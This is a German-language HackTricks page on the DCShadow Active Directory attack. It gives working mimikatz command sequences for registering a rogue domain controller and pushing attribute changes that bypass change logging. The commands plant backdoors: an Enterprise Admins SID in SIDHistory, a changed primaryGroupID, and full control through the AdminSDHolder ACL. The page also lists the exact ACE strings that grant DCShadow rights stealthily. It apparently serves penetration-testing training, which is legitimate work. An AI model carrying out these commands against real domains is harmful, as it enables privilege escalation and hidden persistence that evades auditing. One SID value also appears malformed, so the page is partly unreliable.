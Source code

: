 {{#include ../../banners/hacktricks-training.md}}

# DCShadow

Es registriert einen **neuen Domain Controller** im AD und verwendet ihn, um **Attribute** (SIDHistory, SPNs...) auf bestimmten Objekten **ohne** das Hinterlassen von **Protokollen** bezüglich der **Änderungen** zu **pushen**. Sie **benötigen DA**-Berechtigungen und müssen sich im **Root-Domain** befinden.\
Beachten Sie, dass bei Verwendung falscher Daten ziemlich hässliche Protokolle erscheinen werden.

Um den Angriff durchzuführen, benötigen Sie 2 Mimikatz-Instanzen. Eine davon startet die RPC-Server mit SYSTEM-Berechtigungen (hier müssen Sie die Änderungen angeben, die Sie durchführen möchten), und die andere Instanz wird verwendet, um die Werte zu pushen:
```bash:mimikatz1 (RPC servers)
!+
!processtoken
lsadump::dcshadow /object:username /attribute:Description /value="My new description"
```

```bash:mimikatz2 (push) - Needs DA or similar
lsadump::dcshadow /push
```
Beachten Sie, dass **`elevate::token`** in der `mimikatz1`-Sitzung nicht funktioniert, da dies die Berechtigungen des Threads erhöht, wir jedoch die **Berechtigung des Prozesses** erhöhen müssen.\
Sie können auch ein "LDAP"-Objekt auswählen: `/object:CN=Administrator,CN=Users,DC=JEFFLAB,DC=local`

Sie können die Änderungen von einem DA oder von einem Benutzer mit diesen minimalen Berechtigungen vornehmen:

- Im **Domänenobjekt**:
- _DS-Install-Replica_ (Replica in der Domäne hinzufügen/entfernen)
- _DS-Replication-Manage-Topology_ (Replikations-Topologie verwalten)
- _DS-Replication-Synchronize_ (Replikationssynchronisation)
- Das **Standorte-Objekt** (und seine Kinder) im **Konfigurationscontainer**:
- _CreateChild und DeleteChild_
- Das Objekt des **Computers, der als DC registriert ist**:
- _WriteProperty_ (Nicht Schreiben)
- Das **Zielobjekt**:
- _WriteProperty_ (Nicht Schreiben)

Sie können [**Set-DCShadowPermissions**](https://github.com/samratashok/nishang/blob/master/ActiveDirectory/Set-DCShadowPermissions.ps1) verwenden, um diese Berechtigungen einem unprivilegierten Benutzer zu geben (beachten Sie, dass dies einige Protokolle hinterlässt). Dies ist viel restriktiver als DA-Berechtigungen zu haben.\
Zum Beispiel: `Set-DCShadowPermissions -FakeDC mcorp-student1 SAMAccountName root1user -Username student1 -Verbose` Das bedeutet, dass der Benutzername _**student1**_ beim Anmelden an der Maschine _**mcorp-student1**_ DCShadow-Berechtigungen über das Objekt _**root1user**_ hat.

## Verwendung von DCShadow zur Erstellung von Hintertüren
```bash:Set Enterprise Admins in SIDHistory to a user
lsadump::dcshadow /object:student1 /attribute:SIDHistory /value:S-1-521-280534878-1496970234-700767426-519
```

```bash:Chage PrimaryGroupID (put user as member of Domain Administrators)
lsadump::dcshadow /object:student1 /attribute:primaryGroupID /value:519
```

```bash:Modify ntSecurityDescriptor of AdminSDHolder (give Full Control to a user)
#First, get the ACE of an admin already in the Security Descriptor of AdminSDHolder: SY, BA, DA or -519
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=Admin SDHolder,CN=System,DC=moneycorp,DC=local")).psbase.Objec tSecurity.sddl
#Second, add to the ACE permissions to your user and push it using DCShadow
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local /attribute:ntSecurityDescriptor /value:<whole modified ACL>
```
## Shadowception - DCShadow-Berechtigungen mit DCShadow vergeben (keine modifizierten Berechtigungsprotokolle)

Wir müssen die folgenden ACEs mit der SID unseres Benutzers am Ende anhängen:

- Am Domänenobjekt:
- `(OA;;CR;1131f6ac-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
- `(OA;;CR;9923a32a-3607-11d2-b9be-0000f87a36b2;;UserSID)`
- `(OA;;CR;1131f6ab-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
- Am Angreifer-Computerobjekt: `(A;;WP;;;UserSID)`
- Am Zielbenutzerobjekt: `(A;;WP;;;UserSID)`
- Am Sites-Objekt im Konfigurationscontainer: `(A;CI;CCDC;;;UserSID)`

Um den aktuellen ACE eines Objekts zu erhalten: `(New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC=moneycorp,DC=local")).psbase.ObjectSecurity.sddl`

Beachten Sie, dass Sie in diesem Fall **mehrere Änderungen** vornehmen müssen, nicht nur eine. Verwenden Sie also im **mimikatz1-Sitzung** (RPC-Server) den Parameter **`/stack` mit jeder Änderung**, die Sie vornehmen möchten. Auf diese Weise müssen Sie nur einmal **`/push`** verwenden, um alle gestapelten Änderungen auf dem Rouge-Server durchzuführen.

[**Weitere Informationen zu DCShadow auf ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1207-creating-rogue-domain-controllers-with-dcshadow)

{{#include ../../banners/hacktricks-training.md}}
